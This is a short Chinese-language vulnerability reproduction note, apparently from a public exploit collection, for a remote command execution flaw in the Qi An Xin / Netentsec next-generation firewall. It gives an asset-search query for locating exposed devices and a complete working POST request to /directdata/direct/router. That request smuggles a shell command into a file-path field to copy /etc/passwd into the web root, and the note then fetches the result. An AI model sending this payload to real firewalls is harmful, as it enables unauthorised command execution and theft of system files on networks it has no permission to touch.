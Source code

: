 # 奇安信网康 下一代防火墙 router 远程命令执行漏洞

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![](images/202202162229920.png)

发送如下请求包

```plain
![](C:\Users\47236\Desktop\2.png)POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

再请求获取命令执行结果

```plain
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](images/202202162229568.png)

